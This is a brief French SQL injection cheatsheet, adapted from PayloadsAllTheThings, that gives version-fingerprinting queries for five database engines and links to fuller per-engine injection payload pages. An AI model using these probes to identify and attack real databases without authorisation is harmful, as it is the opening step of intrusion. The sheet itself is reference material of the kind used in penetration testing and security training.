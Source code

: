 # Cheatsheet pour les injections SQL (adaptée de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection))

## Payloads de version

### MSSQL
    SELECT @@version
    
Si ça marche go for : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MSSQL%20Injection.md
    
### MYSQL
    SELECT version()

Si ça marche go for : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md

### OracleSQL
    SELECT user FROM dual UNION SELECT * FROM v$version

Si ça marche go for : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/OracleSQL%20Injection.md

### PostgreSQL
    SELECT version()

Si ça marche go for : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/PostgreSQL%20Injection.md

### SQLite
    select sqlite_version();

Si ça marche go for : https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
